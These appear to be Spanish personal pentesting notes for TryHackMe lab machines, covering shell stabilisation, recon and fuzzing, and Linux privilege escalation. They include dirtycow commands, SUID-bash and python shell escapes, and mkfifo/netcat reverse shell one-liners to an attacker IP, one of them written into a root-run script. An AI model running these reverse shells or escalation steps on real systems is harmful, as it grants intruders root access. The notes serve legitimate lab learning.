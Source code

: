 # Mejorar Shell

## Forma 1

>[[script /dev/null -c bash]]

Para ponerla aún mejor:

> `control + z`
> [[stty -raw echo; fg]]
> `reset xterm`
> [[export TERM=Xterm]]

Y ahora tenemos la shell más interactiva.

## Forma 2

1. `python -c 'import pty;pty.spawn("/bin/bash")';`
2.  Presionar ctrl^z
3. `stty raw -echo`
4.   `stty size` (no sé si es necesario)
5. Ahora escribir 'fg' y presionar ENTER
6. `export SHELL=bash`
7. `export TERM=xterm-256color`


# 1. Reconocimiento

Podemos empezar usando [[nmap]]: `nmap -p- -sVC -sC -sS --open -vvv -n -Pn IP -oN newNameFile`.

También podemos emplear el comando [[whatweb]] para ver más información de la página web.

# 2. Fuzzing

Podemos usar (más o menos son iguales):

## Gobuster

**Pero, ¿y si hay [[subdominios]]?**

Vamos a usar un diccionario de github para ver si encontramos algo:

1. Buscamos el diccionario de "seclists".

2. Dentro del path "discovery > DNS", encontramos los posibles subdominios más comunes dentro de las páginas webs.

3. Una vez elegido el fichero (podemos elegir el más grande, aunque implique más tiempo), hacemos un [[wget]] del enlace, y ya lo tenemos descargado.

4. Una vez que tenemos el fichero descargado, vamos a usar [[gobuster]]:

> `gobuster vhost -w diccionary -u URL -k`

EL `-K` ES SOLO PARA CUÁNDO ES [[HTTPS]]

- `vhost`: quiero ver si se aplican de otro hosting.
- `-k`: página segura (HTTPS). 

## Dirbuster

Para ver a cuáles directorios podemos acceder desde esta web, usaremos la aplicación **[[Dirbuster]]**:

1. Insertamos la URL (http://ip:port).

2. Ponemos 50 hilos.

3. En "FIle with the list of dirs/files", buscamos con "browse" y elegimos el siguiente path: "/usr/share/wordlists/dirbuster/**medium**" (casi siempre escogeremos el medium), y le damos a Start.
 
4. En esta máquina, encontramos el directorio "cgi-bin"... Si investigamos sobre este directorio, veremos que es una vulnerabilidad que podemos explotar, y que dentro de este encontramos archivos binarios.
 
5. Si hacemos otra búsqueda con [[Dirbuster]], pero lo configuramos para que empiece por "/cgi-bin" y que busque archivos "sh, py", nos dará los archivos binarios que podremos ejecutar ([[reverse shell]]).

## SUBDOMINIOS

Una vez terminado el escaneo, tendremos los subdominios... LOS SUBDOMINIOS DEBEN INTRODUCIRSE DELANTE DEL DOMINIO, por ejemplo:

> https://store.nunchucks.htb

No nos funcionará, porque hay que añadirlo también al [[/etc/hosts]] (se pone al lado del dominio original):

`ip domain subdomain`

# 3. Explotación

Podemos usar herramientas cómo:

- [[Metaexploit]]

- [[Searchsploit]]

- Payload all the things (Repositorio de GitHub)

- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

- Extensión [[Wappalyzer]].


# 4. Escalada de Privilegios

## 4.1. Escalada de Privilegios Linux

- Podemos ejecutar el script linux-exploit-suggester.sh para ver diferentes CVEs a los que posiblemente sea vulnerable el sistema. Uno de los posibles es dirtycow, como en la máquina de Linux PrivEsc Arena de THM.
	Para ejecutar el dirtycow habría que compilar y ejecutar el binario:
		**$ gcc -pthread /home/user/tools/dirtycow/c0w.c -o c0 c0w**
		**$ ./c0w**

- Mirar si existe fichero .ovpn y si existe en él la directiva auth-user-pass, y ver que valor tiene. Debería ser la ruta a donde está la contraseña en texto plano.

- Mirar el fichero .bash_history para ver si se ha colado una contraseña.

- Comprobar los permisos de los ficheros, en especial del shadow y del passwd.

- Comprobar si se puede ver el fichero id_rsa para loguearse por ssh. Si lo está, ponerle permisos solo de lectura ($ chmod 400 id_rsa).

- Ejecutar "sudo -l" y ver que se puede ejecutar como root.

- El siguiente comando sirve para ver los binarios SUID del sistema:
	- **$ find / -type f -perm -04000 -ls 2>/dev/null**


- El siguiente comando sirve para ver si algún binario está suelto:
	- **$ strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"**

- El siguiente comando busca recursivamente en todo el sistema de archivos en busca de archivos binarios que tengan capacidades asignadas y muestra los permisos de capacidad de esos archivos. Cualquier mensaje de error se suprime y no se muestra en la terminal:
	- **$ getcap -r / 2>/dev/null**

- Este comando copia una bash en el directorio /tmp y luego le añade permisos SETUID:
	- **cp /bin/bash /tmp/bash; chmod +s /tmp/bash**
	Despu-es podemos ejecutar la bash con la flag -p, que nos da permisos de superusuario:
	- **$ /tmp/bash -p**


### MÁQUINA RootMe de THM
Si vemos los archivos que tienen el bit SUID activo, vemos que python está activo. Eso es bastante sospechoso. Podemos ejecutar python como sudo y ejecutar una shell de la siguiente manera:

	-$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

De esta manera abrimos una shell con privilegios con python.

### MÁQUINA LazyAdmin de THM
En esta máquina hemos podido observar que al ejecutar `$ sudo -l` nos salían que podíamos ejecutar con derechos de root lo siguiente:

- (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

El fichero **backup.pl** ejecutaba un fichero .sh (copy.sh) que ejecutaba una shell:

- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.0.190 5554 >/tmp/f`

El fichero copy.sh era ejecutable por todo el mundo, a causa de weak file permissions.
Por lo tanto hemos podido aprovecharnos de esto y ejecutar una shell en NUESTRA máquina con permisos de root:

Primero modificamos el fichero. En este caso no había ni vim ni vi ni nano, por lo tanto hemos recurrido a lo siguiente:

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc NUESTRA_IP_DE_THM 1337 >/tmp/f" > /etc/copy.sh`

NOTA: Anteriormente, como en todas las reverse shell, hemos puesto un puerto en escucha.

Por último, tenemos que ejecutar el fichero con permisos root.

- `$ sudo /usr/bin/perl /home/itguy/backup.pl`

Y ya tendríamos una shell con root. YEEHA!







